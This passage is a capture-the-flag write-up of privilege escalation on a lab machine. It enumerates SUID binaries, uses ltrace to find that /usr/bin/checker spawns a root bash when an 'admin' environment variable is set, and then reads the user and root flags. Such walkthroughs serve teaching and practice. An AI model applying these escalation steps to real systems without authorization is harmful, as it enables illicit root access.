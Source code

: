 ## Privilege Escalation

Our main goals: `user.txt` & `root.txt`. We can usually find the user flag with a simple find command.

```bash
find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
```

Only when cat'ing this file:

```bash
You won't find what you're looking for here.

TRY HARDER
```

Okay, we can make an extra effort, let's see about the SUID files:

```bash
find / -perm -u=s -type f 2>/dev/null
```

One file that stands out is `/usr/bin/checker`.

Nothing was found on `GTFOBins`, so let's see what happens when we execute it:

```bash
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

So, it gets an `"admin"` environment variable and then prints `"Not an Admin"`.

What would happen if we declare this variable?

```bash
export admin=1
ltrace checker
getenv("admin")                                  = "1"
setuid(0)                                        = -1
system("/bin/bash"
```

Oh, so it tries to execute bash, with root privileges, which gives us a bash command with root privileges, AWESOME!

```bash
checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Let's execute that command again for the user flag.

```bash
find / 2>/dev/null | grep user.txt
/home/bjoel/user.txt
/media/usb/user.txt
cat /media/usb/user.txt
[REDACTED]
```

Also, don't forget the root flag.

```bash
cat /root/root.txt
[REDACTED]
```
